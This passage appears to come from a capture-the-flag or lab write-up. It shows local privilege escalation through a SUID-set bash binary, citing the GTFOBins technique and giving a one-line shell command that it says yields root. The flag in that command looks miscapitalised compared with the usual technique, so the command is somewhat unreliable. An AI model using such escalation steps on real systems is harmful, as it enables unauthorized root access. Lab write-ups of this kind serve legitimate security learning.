<figure><figcaption><p>Bash with SUID set</p></figcaption></figure>

I can elevate my user shell with the [GTFOBins technique](https://gtfobins.github.io/gtfobins/bash/#suid):

```bash
/usr/bin/bash -P
```

<figure><figcaption><p>Root shell</p></figcaption></figure>

`root` access achieved.
